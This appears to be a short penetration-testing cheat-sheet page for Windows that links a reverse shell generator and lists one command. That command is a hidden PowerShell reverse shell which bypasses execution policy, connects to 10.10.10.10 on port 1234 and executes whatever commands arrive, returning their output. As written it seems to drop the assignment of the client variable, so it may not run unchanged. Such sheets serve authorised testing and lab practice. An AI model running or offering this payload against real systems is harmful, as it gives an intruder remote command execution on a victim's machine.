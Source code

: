 # Windows

## Reverse shell generator

{% embed url="https://www.revshells.com/" %}

## Reverse shell



| Command                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              | Description              |
| -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------ |
| `powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535\|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 \| Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()` | Powershell reverse shell |
